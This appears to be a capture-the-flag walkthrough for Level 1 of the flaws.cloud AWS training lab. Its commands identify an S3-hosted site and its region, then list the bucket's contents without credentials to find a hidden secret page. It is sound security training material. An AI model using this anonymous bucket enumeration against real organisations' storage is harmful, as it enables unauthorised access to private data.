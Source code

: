 # [Level 1](http://flaws.cloud/)

* Notice the site is hosted on S3:

```bash
$ curl -I http://flaws.cloud
HTTP/1.1 200 OK
x-amz-id-2: legjOf3wdebN8gGr0CdlJuoia2lq3q5lBmOBgzBULVBoFncutdssl4YnLIZK6pRvFBBaOjC2ZT0=
x-amz-request-id: F361D07A659E9096
Date: Tue, 12 May 2020 00:21:51 GMT
Last-Modified: Tue, 10 Jul 2018 16:47:16 GMT
ETag: "ddd133aef0f381cf0440d5f09648791d"
Content-Type: text/html
Content-Length: 3082
Server: AmazonS3
```

or

```bash
$ dig +nocmd flaws.cloud any +multiline +noall +answer
flaws.cloud.    30 IN A  52.218.229.10
# ...

# Visit IP (52.218.229.10) and notice redirect to:
# https://aws.amazon.com/s3/
```

* Find region info:

```bash
$ nslookup 52.218.229.10
Server:   192.168.208.1
Address:  192.168.208.1#53

Non-authoritative answer:
10.229.218.52.in-addr.arpa  name = s3-website-us-west-2.amazonaws.com.
```

* Try listing contents of bucket:

```bash
$ aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
2017-03-13 20:00:38       2575 hint1.html
2017-03-02 20:05:17       1707 hint2.html
2017-03-02 20:05:11       1101 hint3.html
2018-07-10 09:47:16       3082 index.html
2018-07-10 09:47:16      15979 logo.png
2017-02-26 17:59:28         46 robots.txt
2017-02-26 17:59:30       1051 secret-dd02c7c.html
```

* Visit http://flaws.cloud/secret-dd02c7c.html
